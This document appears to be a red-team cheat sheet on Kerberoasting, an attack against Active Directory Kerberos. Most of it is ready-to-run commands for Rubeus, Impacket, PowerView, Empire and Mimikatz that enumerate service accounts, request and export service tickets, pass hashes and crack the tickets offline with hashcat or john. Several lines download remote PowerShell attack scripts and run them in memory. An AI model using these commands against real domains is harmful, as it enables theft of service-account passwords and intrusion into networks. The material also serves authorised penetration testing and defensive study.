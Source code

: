 # Active Directory - Kerberos Kerberoasting

### Overview

A Kerberoasting attack is an attack on the `Kerberos` authentication protocol
that involves compromising the password of a service account, a domain account
that has a `ServicePrincipalName (SPN)`, through `service tickets` requests to
the `Ticket-Granting Service (TGS)`.

The attack is based on the fact that a part of the `service tickets` is
encrypted using one of the service account secrets (`RC4`, corresponding to
the `NTLM hash` of the service account password, and `AES 128/256 bits` keys).
The encryption type to be used can be specified client-side in order to force
the use of the `RC4` key. Thus, an offline cracking attack on the service
tickets can be conducted to retrieve the plaintext password of the
corresponding service account.

As any authenticated user on the domain in possession of a valid
`Ticket-Granting Ticket (TGT)` can requests service tickets for all available
services, the service accounts password are exposed to offline cracking attack
that are much faster and can not be time restricted.

The attack chain is as follow:
  - Identification of accounts with a `SPN` (service accounts)
  - Request of a service ticket for those services
  - Extraction of the TGS for offline cracking

###### Service Principal Names (SPN)

The `SPN` is a unique identifier of a service instance. `SPNs` are used in
`Kerberos` authentication to associate a service instance with a service
logon account. `SPN` are used to map a service running on a server to an
account it’s running as so that it can accept Kerberos authentication.

### Automated SPN discover, request and export of TGS

The following tools can be used to automate the SPN discovery and the request
and export of Service Tickets for offline cracking.

Recommended tools:
  - `Rubeus`: robust and allow to filter out AES-enabled accounts.
  - `GetUserSPNs.py` / `GetUserSPNs_windows.exe`: robust and potentially less
  detected by security products.

```
# List statistics about Kerberoastable accounts, such as the number of accounts supporting the different encryption algorithms and the years of last password definition
Rubeus.exe kerberoast /stats

# All service accounts without AES enabled
Rubeus.exe kerberoast /rc4opsec /outfile:<FILE_PATH>

# All RC4-enabled service accounts (whom may have AES enabled as well) - with RC4 encrypted service tickets
Rubeus.exe kerberoast /tgtdeleg /outfile:<FILE_PATH>

# All service accounts - with the highest supported encryption algorithm
Rubeus.exe kerberoast /outfile:<FILE_PATH>

# Specific service account
Rubeus.exe kerberoast /tgtdeleg /user:<USERNAME> /outfile:<FILE_PATH>
Rubeus.exe kerberoast /tgtdeleg /spn:<SPN> /outfile:<FILE_PATH>

# All service accounts in the specified domain with the provided credentials
# Note that sometimes the credentials specification may induces a bug and Rubeus should be used through a runas /Netonly session
Rubeus.exe kerberoast /rc4opsec /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>
Rubeus.exe kerberoast /dc:<DC_HOSTNAME | DC_IP> /domain:<DOMAIN_FQDN> /creduser:'<DOMAIN_FQDN>\<USERNAME>' /credpassword:'<PASSWORD>' /outfile:<FILE_PATH>

# (Powershell) Invoke-Kerberoast - Load in memory
IEX (New-Object Net.WebClient).DownloadString(‘https://gist.githubusercontent.com/0xbadjuju/0ebe02983273048c237a8b24633cee3f/raw/c385a21c230ee0e274293aa4e50b5b9ed4197df2/Invoke-Kerberoast.ps1')
Invoke-Kerberoast [[-Identity] <String[]>] [-Domain <String>] [-LDAPFilter <String>] [-SearchBase <String>] [-Server <String>] [-SearchScope <String>] [-ResultPageSize <Int32>] [-ServerTimeLimit <Int32>] [-Tombstone] [-OutputFormat <String>] [-Credential <PSCredential>]
Invoke-Kerberoast
Invoke-Kerberoast -Domain <DOMAIN> -Server <DC>
Invoke-Kerberoast -Format "John" / "Hashcat" # Default to John
Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII <FILE>

# (Python) Impacket/examples GetUserSPNs.py
# Or standaloned Windows / Linux versions compiled: https://github.com/ropnop/impacket_static_binaries.
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -outputfile <FILE> <DOMAIN>/<USERNAME>
```

### Manual SPN Discovery

The following tools can be used to retrieve the SPN of the Domain services:

```
# Active Directory module
Get-ADUser -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName
Get-ADUser -Server <DC_HOSTNAME | DC_IP> -Credential <PSCredential> -Properties servicePrincipalName -Filter "servicePrincipalName -like '*'" | Select-Object SamAccountName,servicePrincipalName

# PowerView
Get-DomainUser -SPN | Select-Object SamAccountName,servicePrincipalName
Get-DomainUser -SPN | ?{$_.memberof -match 'Domain Admins'}

# (Python) Impacket/examples GetUserSPNs.py
# Request service tickets for all service accounts
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME>
# Request service tickets for the specific account (using the service account SamAccountName)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> <DOMAIN>/<USERNAME> -request-user '<USERNAME>'
# Pass-the-Hash
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -hashes <LMHASH:NTHASH> <DOMAIN>/<USERNAME>

# (Powershell) GetUserSPNs - retrieve only SPN associated to user accounts (CN=Users) - inject and run automatically
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1')

# (Powershell) Get-SPN - allows for regex searching in the account, service or group name (specified by the Type and Search parameters)
# IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")
Get-SPN [[-Credential] <PSCredential>] [[-DomainController] <String>] [[-Limit] <Int32>] [[-SearchScope] <String>] [[-SearchDN] <String>] [-Type] <String> [-Search] <String> [[-List] <String>] [<CommonParameters>]
Get-SPN -Type user -Search * -List yes
Get-SPN -Type service -Search "MSSQL*"
Get-SPN -DomainController <DC_HOSTNAME | DC_IP> -Credential <DOMAIN>\<USERNAME [...]

# Empire
usemodule situational_awareness/network/get_spn
```

Focus on the accounts with the higher probability of using a weak password,
usually user accounts with a password that has not been changed in a long time
/ not changed at all.

### Manual request and export of Service Tickets

The following tools can be used to request and export specific user Service
Tickets:

```
# (Python) Impacket/examples GetUserSPNs.py
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' <DOMAIN>/<USERNAME> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
GetUserSPNs.py -dc-ip <DC_HOSTNAME | DC_IP> -request-user '<USER>' -outputfile <FILE> <DOMAIN>/<USERNAME>

# (Python) skelsec/kerberoast
kerberoast spnroast -r <DOMAIN> -u '<USER>' <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # Requests TGS for the SPN associated to the USER specified (just the username, no domain needed)
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<NTLMHASH>@<DCIP> # PtH
kerberoast spnroast -r <DOMAIN> -u '<USER>' -n <DOMAIN>/<USERNAME>:<AESKEY>@<DCIP> # Pass the Key
kerberoast spnroast -r <DOMAIN> -t <USERFILE>  <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP> # File with a list of usernames to roast, one user per line
kerberoast spnroast -r <DOMAIN> -u '<USER>' -o <FILE> <DOMAIN>/<USERNAME>:<PASSWORD>@<DCIP>

# (Powershell)
# Request TGS KerberosRequestorSecurityToken, export them using Mimikatz and convert to hash using John's kirbi2john.py

# Requests TGS for the specified SPN
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "<SPN>"

# Requests TGS for all SPN associated to Users accounts
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}

# Export tickets using mimikatz
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command 'standard::base64 "kerberos::list /export" exit'

# Empire
usemodule credentials/get_spn_tickets
usemodule credentials/mimikatz/extract_tickets
```

### Offline cracking of Service Tickets

Both `John the Ripper` (`magnumripper` fork) and `hashcat` can be used to crack
the service tickets.

The hash needs to respect the following format to be recognized by `John` /
`hashcat`:

```
# ENCRYPTION_TYPE 23 = RC4
# ENCRYPTION_TYPE 17 = AES128
# ENCRYPTION_TYPE 18 = AES256

$krb5tgs$<ENCRYPTION_TYPE>$*user$realm$test/spn*$63386[...]
```

Depending on the version used, the hash from the `PowerSploit`
`Invoke-Kerberos` cmdlet may need to be manually updated. The
[`Convert-Invoke-Kerberoast`](https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast)
Python script may be used to automate the process:

```
python Convert-Invoke-Kerberoast.py -f <TICKETS_FILE> -w <OUTPUT_FILE>
```

The following commands to crack the hash can be used:

```
# Its recommended to use Hashcat on a Windows OS for better performance due to driver compatibility
hashcat64.exe -m 13100 -a 0 [-r <RULE_FILE>] <HASHFILE> <WORDLIST>

john --wordlist=<WORDLIST> <HASHFILE>
```

--------------------------------------------------------------------------------

### References

https://www.harmj0y.net/blog/redteaming/kerberoasting-revisited/
https://github.com/GhostPack/Rubeus/blob/master/README.md
